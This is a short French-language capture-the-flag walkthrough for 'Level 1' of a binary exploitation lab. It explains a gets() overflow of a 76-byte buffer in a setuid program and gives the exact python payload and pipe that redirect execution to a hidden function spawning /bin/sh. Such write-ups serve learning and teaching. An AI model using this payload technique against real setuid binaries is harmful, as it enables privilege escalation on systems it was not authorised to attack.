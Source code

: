 # Level 1

```
$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
En ouvrant ce programme dans ghidra, on repère deux fonctions, une qui est le `main` et une autre `run` qui éxecute `/bin/sh` mais elle n'est jamais utilisé.<br/>
Et le `main` va simplement lire dans stdin jusqu'à trouvé un `\n` et sauvegarde dans `buffer`. Le petit problème c'est que `buffer` peut contenir seulement 76 charactères alors que `gets` peut lire bien plus que 76.

On va alors faire tous simplement un buffer overflow et pour ce faire, écrire l'address de `run` à la suite de ces 76 charactères.

![Ghidra level01, fonction main et run](./ghidra-level1.png)
```
$ python -c 'print("a" * 76 + "\x44\x84\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level1
```